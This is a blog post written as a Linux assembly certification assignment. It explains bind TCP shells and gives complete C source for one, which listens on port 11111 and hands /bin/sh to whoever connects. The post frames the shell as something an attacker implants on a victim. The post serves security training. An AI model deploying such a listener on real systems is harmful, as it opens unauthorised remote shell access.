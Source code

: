 ```yaml
---
title: SLAE32 - Assignment#1 [Bind TCP Shell]
author: bigb0ss
date: 2020-12-12 13:26:00 +0800
categories: [SLAE32]
tags: [slae32, assembly, x86, Bind TCP Shell]
image: /assets/img/post/slae32/slae32.png
---
```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1542

# Assignement #1 
* Create a Shell_Bind_TCP shellcode
	- Binds to a port
	- Execs Shell on incoming connection

* Port number should be easily configurable


# What is a Bind Shell?
Bind TCP opens up a port on the victim system. If an attacker could exploit a vulnerability on the victim system, she can implant a bind shell and connect to it from the remote attaking box. However, due to a firewall and detection controls, reverse TCP shell is preferrable over bind TCP shell thesedays.

![image](/assets/img/post/slae32/assignment1/01.png)

# Bind TCP Shell in C
Before creating our Bind TCP Shell in shellcode, we need to understand the Socket Programming. 

> **NOTE**: Socket programming is a way of connecting two nodes on a network to communicate with each other. 

![image](/assets/img/post/slae32/assignment1/02.png)

To better understand the Bind TCP, let's create a Bind TCP Shell in a higher programming language. We will use `C`:

```c++
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <stdlib.h>
#include <unistd.h>

int main()
{

	int resultfd, sockfd;
	int port = 11111;
	struct sockaddr_in my_addr;

	// syscall 102
	// int socketcall(int call, unsigned long *args);

	// sycall socketcall (sys_socket 1)
	sockfd = socket(AF_INET, SOCK_STREAM, 0);

	// syscall socketcall (sys_setsockopt 14)
        int one = 1;
        setsockopt(sockfd, SOL_SOCKET, SO_REUSEADDR, &one, sizeof(one));

	// set struct values
	my_addr.sin_family = AF_INET; // 2
	my_addr.sin_port = htons(port);
	my_addr.sin_addr.s_addr = INADDR_ANY;

	// syscall socketcall (sys_bind 2)
	bind(sockfd, (struct sockaddr *) &my_addr, sizeof(my_addr));

	// syscall socketcall (sys_listen 4)
	listen(sockfd, 0);

	// syscall socketcall (sys_accept 5)
	resultfd = accept(sockfd, NULL, NULL);

	// syscall 63
	dup2(resultfd, 2);
	dup2(resultfd, 1);
	dup2(resultfd, 0);

	// syscall 11
	execve("/bin/sh", NULL, NULL);

	return 0;
}
```





















